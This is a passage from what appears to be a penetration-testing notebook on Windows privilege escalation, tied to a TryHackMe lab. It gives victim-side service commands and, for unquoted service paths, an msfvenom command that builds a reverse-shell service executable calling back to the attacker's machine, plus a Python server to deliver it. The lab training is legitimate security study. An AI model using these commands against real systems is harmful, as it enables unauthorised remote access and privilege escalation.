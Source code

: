 **OR**

**Victim(Powershell)**

```
sc.exe stop windowsscheduler
sc.exe start windowsscheduler
```

<figure><img src="../../../../.gitbook/assets/image (31) (2).png" alt=""><figcaption></figcaption></figure>

### Unquoted Service Paths

**Examples**

[#unquoted-service-paths](../../../../walkthroughs/tryhackme/windows-privilege-escalation.md#unquoted-service-paths "mention")

**Victim(cmd)**

```
 sc qc "disk sorter enterprise"
```

<figure><img src="../../../../.gitbook/assets/image (12) (2) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4446 -f exe-service -o rev-svc2.exe
python2 -m SimpleHTTPServer 81
```
